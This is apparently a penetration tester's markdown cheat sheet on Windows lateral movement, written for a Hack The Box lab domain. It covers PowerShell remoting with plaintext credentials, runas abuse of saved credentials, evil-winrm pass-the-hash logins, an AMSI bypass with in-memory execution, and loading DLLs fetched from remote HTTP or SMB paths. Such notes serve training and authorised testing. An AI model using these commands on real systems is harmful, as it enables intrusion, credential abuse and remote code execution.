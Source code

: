 # Lateral Movement

## Powershell remoting

Enable by using `Enable-PSRemoting`

Manage sessions

```
Enter-PSSession -ComputerName <fqdn>        //start new session on machine with admin priv

$ses = New-PSSession -ComputerName <fqdn>   //store session properties on variable
Enter-PSSession -Session $ses
```

Invoke-Command

```
//disable limit on laguage, enable scriptlets
Invoke-Command -ComputerName <fqdn> -ScriptBlock {$ExecutionContext.SessionState.LanguageMode}

Invoke-Command -ComputerName <fqdn> -ScriptBlock {<code>} 
Invoke-Command -ComputerName <fqdn> -FilePath <path>    //script from file
```

Start session with valid credentials

```
$SecPassword = ConvertTo-SecureString '<pass>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb.local\<username>', $SecPassword)
Invoke-Command -ComputerName <fqdn> -Credential $Cred -ScriptBlock {<commands>}
```

Run a PowerShell script remotely

```
$SecPassword = ConvertTo-SecureString '<pass>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb.local\<username>', $SecPassword)
Invoke-Command -Credential $Cred -ComputerName <fqdn> -FilePath <path to ps1 file> -Session $sess
Enter-PSSession -Session $sess
```

## RunAs

```
cmdkey /list                                      //get a list of credentials, runas will use the ones in memory
runas /savecred /user:<user> "\\<ip>\<path>"      //connect to share
runas /savecred /user:<user> "cmd.exe /k <cmd>"   //run command as user

runas /env /noprofile /user:<username> <password> "<cmd>"
```

## Evil-WinRM

Ps1 files must be stored in path specified by -s option. To execute a script simply type its name in the console.

```
evil-winrm -i <ip> -u Administrator -p <password>
evil-winrm -i <ip> -u Administrator -H <hash>
```

### In-memory execution + AMSI Bypass

Find pre-compiled binaries for in-memory execution here: [https://github.com/Flangvik/SharpCollection](https://github.com/Flangvik/SharpCollection)

```
menu
Bypass-4MSI
Invoke-Binary <path to local compiled file>
```

### Dll loader

```
Dll-loader -http -path http://<path to .dll>
Dll-loader -smb -path \\<share>\\<file>.dll
Dll-loader -local -path C:\<path to dll>
```
